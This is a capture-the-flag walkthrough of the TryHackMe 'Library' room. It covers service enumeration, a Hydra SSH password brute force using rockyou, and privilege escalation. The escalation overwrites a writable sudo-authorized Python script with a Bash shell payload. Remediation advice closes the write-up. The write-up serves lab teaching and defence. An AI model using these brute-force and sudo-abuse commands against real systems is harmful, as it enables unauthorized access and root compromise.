# TryHackMe Library Writeup

> [!WARNING]
> **Spoiler warning:** This writeup explains the complete solution path for the authorized TryHackMe Library room. The `user.txt` and `root.txt` flag values are redacted in this public version.

An authorized lab walkthrough covering service enumeration, SSH credential discovery, initial access, and Python-based privilege escalation.

| Item | Details |
| --- | --- |
| Platform | TryHackMe |
| Room | [Library](https://tryhackme.com/room/bsidesgtlibrary) |
| Difficulty | Easy |
| Target | `<MACHINE_IP>` |

## Downloads

- [Sanitized Word report](Library-Writeup-Redacted.docx)
- [Sanitized PDF report](Library-Writeup-Redacted.pdf)

The target address is represented as `<MACHINE_IP>` because TryHackMe assigns a temporary address when the machine is deployed. Screenshots retain the address used during this authorized lab session.

## Table of contents

- [Reconnaissance](#reconnaissance)
- [Web enumeration](#web-enumeration)
  - [robots.txt clue](#robotstxt-clue)
  - [Username discovery](#username-discovery)
  - [Password-list verification](#password-list-verification)
- [SSH credential discovery](#ssh-credential-discovery)
- [Initial access](#initial-access)
- [User flag](#user-flag)
- [Privilege escalation](#privilege-escalation)
  - [Confirming restricted access](#confirming-restricted-access)
  - [Reviewing sudo permissions](#reviewing-sudo-permissions)
  - [Replacing the sudo-authorized script](#replacing-the-sudo-authorized-script)
  - [Obtaining a root shell](#obtaining-a-root-shell)
- [Root flag](#root-flag)
- [Security findings](#security-findings)
- [Remediation](#remediation)
- [Lessons learned](#lessons-learned)

## Reconnaissance

I began with Nmap default-script and service-version detection to identify reachable TCP services and collect initial HTTP metadata.

```bash
nmap -sC -sV <MACHINE_IP>
```

The scan identified two open ports:

- `22/tcp` - OpenSSH 7.2p2
- `80/tcp` - Apache HTTP Server 2.4.18

The HTTP title identified the host as the Library machine, so I prioritized the web service for further enumeration.



## Web enumeration

### robots.txt clue

The Nmap HTTP scripts reported a `robots.txt` file. I opened it in the browser and found an unusual user-agent value.

```text
http://<MACHINE_IP>/robots.txt
```



The string `rockyou` suggested the common RockYou password list. A username was still required before testing SSH credentials.

### Username discovery

The web application displayed a blog post whose author line named `meliodas`. I treated this value as a candidate local account for the exposed SSH service.



**Candidate username:** `meliodas`

### Password-list verification

I checked the standard Kali Linux word-list directory and confirmed that RockYou was available as `rockyou.txt.gz`.

```bash
ls -l /usr/share/wordlists
```



The Hydra build used in this session accepted the compressed list directly. On a system that requires plain-text input, the archive can instead be expanded with `gzip -dk`.

## SSH credential discovery

Within the authorized lab scope, I tested the `meliodas` account against the password list with four parallel tasks.

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt.gz -t 4 ssh://<MACHINE_IP>
```



**Credentials:** `meliodas / iloveyou1`

## Initial access

I used the discovered credentials to establish an SSH session on the target.

```bash
ssh meliodas@<MACHINE_IP>
```

After accepting the host key and authenticating, I obtained a shell as `meliodas` on Ubuntu 16.04.6 LTS.



## User flag

I listed the user's home directory, located `user.txt`, and read the file.

```bash
ls -la
cat user.txt
```



**User flag:** `[REDACTED]`

## Privilege escalation

### Confirming restricted access

An attempt to list `/root` as `meliodas` returned `Permission denied`, confirming that privilege escalation was required.

```bash
ls /root
```



### Reviewing sudo permissions

I inspected the sudo rules available to `meliodas`.

```bash
sudo -l
```

The relevant rule was:

```text
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

The rule allowed a matching Python interpreter to execute `/home/meliodas/bak.py` as root without a password. The file was owned by `meliodas` and writable, so its contents could be replaced before sudo executed it.



### Replacing the sudo-authorized script

I recreated `bak.py` with a short Python payload that replaces the interpreter process with a Bash shell. The `-p` option tells Bash to preserve its effective user ID.

```bash
echo 'import os; os.execl("/bin/bash", "bash", "-p")' > /home/meliodas/bak.py
```



### Obtaining a root shell

I executed the authorized script through the permitted Python interpreter.

```bash
sudo /usr/bin/python3 /home/meliodas/bak.py
```



**Privilege context:** `root`

## Root flag

With elevated privileges, I listed `/root` and read `root.txt`.

```bash
ls /root
cat /root/root.txt
```



**Root flag:** `[REDACTED]`

## Security findings

- A predictable username was disclosed through public page content.
- A password-list hint was exposed through `robots.txt`.
- Password-based SSH authentication allowed a common password to be recovered.
- A writable script was authorized for passwordless root execution through sudo.
- A broad Python wildcard increased the impact of the unsafe sudo rule.

## Remediation

- Do not expose account names or credential hints in public web content.
- Disable password-based SSH authentication where possible and use strong keys.
- Remove passwordless sudo rules unless they are strictly necessary.
- Never authorize a user-writable script for privileged execution.
- Avoid broad command wildcards in sudoers rules.
- Store privileged scripts in root-owned, non-writable locations.

## Lessons learned

This room demonstrated how small information disclosures can lead to initial access and how unsafe sudo configuration can turn a low-privileged shell into full root compromise. The decisive issue was not Python itself, but the combination of passwordless privileged execution and a script that the unprivileged user could replace.
